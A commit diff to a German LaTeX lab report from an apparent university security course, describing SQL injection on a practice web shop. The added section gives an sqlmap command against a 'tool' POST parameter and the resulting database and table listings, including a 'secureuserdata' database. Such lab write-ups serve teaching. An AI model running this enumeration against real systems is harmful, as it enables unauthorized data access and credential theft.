

Before and after one commit to hikhvar/Hacking, a LaTeX document (Protokolle/2/protokoll.tex): part of page 1 of 2 before the commit and two parts of pages 1 and 2 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
added number 1 (must be worked all over again)

```diff
--- a/Protokolle/2/protokoll.tex
+++ b/Protokolle/2/protokoll.tex
@@ -59,4 +59,94 @@
 	\item Wenn der Angreifer weiß, wie viele Spalten die eigentliche Anfrage hatte, kann er eine Injection zusammenstellen, die wieder genauso viele Spalten hat als Ergebnis. Dies ist wichtig, da die Daten aus den Anfragen selten direkt dem Nutzer gezeigt werden. Meistens werden sie noch durch eine Logik der Anwendung verarbeitet und aufbereitet. Wenn die Injection nun nicht die richtige Spaltenanzahl hat werden die meisten Anwendung die Darstellung abbrechen und nur einen Fehler zeigen. Wenn das Ziel des Angriffs eine Manipulation der Daten ist, kann dies ausreichen. Will der Angreifer aber Daten aus der Datenbank erhalten, will er diese auch angezeigt bekommen.
 	\item
 \end{itemize}
+
 \subsection*{b)}
+Zuerst im Browser mal auf den shop gehen und schauen, was er so macht. Man musste unten nmap oder wireshark auswählen und dann auf Details ansehen klicken. Hierdurch wurde man auf die Seite "`details\_tools.php"' weitergeleitet und bekommt ein paar daten über z.B. Wireshark.
+
+Durch das Firefox-plugin Tamper Data konnten wir herausfinden, dass als Post dabei der wert tool=1 (für nmap) bzw tool=2 (für wireshark) übergeben werden. Dies können wir ausnutzen, um mit sqlmap die Datenbank(en) anzuschauen. Hierfür benutzen wir zunächst folgenden Befehl:
+\begin{verbatim}
+sqlmap -u hackshop.seclab.uni-paderrborn.de/details\_tools.php --data=tool=1 --tables
+\end{verbatim}
+Der gibt uns sowohl die vorhandenen Datenbanken, als auch die dazu gehörigen Tabellen:
+
+\begin{verbatim}
+Database: webshop
+[2 tables]
++---------------------------------------+
+| artikel                               |
+| logs                                  |
++---------------------------------------+
+\end{verbatim}
+
+\begin{verbatim}
+Database: secureuserdata
+[1 table]
++---------------------------------------+
+| accessdata                            |
++---------------------------------------+
+\end{verbatim}
+
+\begin{verbatim}
+Database: information_schema
+[28 tables]
++---------------------------------------+
+| CHARACTER_SETS                        |
+| COLLATIONS                            |
+| COLLATION_CHARACTER_SET_APPLICABILITY |
+| COLUMNS                               |
+| COLUMN_PRIVILEGES                     |
+| ENGINES                               |
+| EVENTS                                |
+| FILES                                 |
+| GLOBAL_STATUS                         |
+| GLOBAL_VARIABLES                      |
+| KEY_COLUMN_USAGE                      |
+| PARTITIONS                            |
+| PLUGINS                               |
+| PROCESSLIST                           |
+| PROFILING                             |
+| REFERENTIAL_CONSTRAINTS               |
+| ROUTINES                              |
+| SCHEMATA                              |
+| SCHEMA_PRIVILEGES                     |
+| SESSION_STATUS                        |
+| SESSION_VARIABLES                     |
+| STATISTICS                            |
+| TABLES                                |
+| TABLE_CONSTRAINTS                     |
+| TABLE_PRIVILEGES                      |
+| TRIGGERS                              |
+| USER_PRIVILEGES                       |
+| VIEWS                                 |
++---------------------------------------+
+\end{verbatim}
+
+\begin{verbatim}
+Database: mysql
+[23 tables]
++---------------------------------------+
+| user                                  |
+| columns_priv                          |
+| db                                    |
+| event                                 |
+| func                                  |
+| general_log                           |
+| help_category                         |
+| help_keyword                          |
+| help_relation                         |
+| help_topic                            |
+| host                                  |
+| ndb_binlog_index                      |
+| plugin                                |
+| proc                                  |
+| procs_priv                            |
+| servers                               |
+| slow_log                              |
+| tables_priv                           |
+| time_zone                             |
+| time_zone_leap_second                 |
+| time_zone_name                        |
+| time_zone_transition                  |
+| time_zone_transition_type             |
++---------------------------------------+
+\end{verbatim}
```
Also changed, not shown: Protokolle/2/protokoll.tex (27 more changed lines).
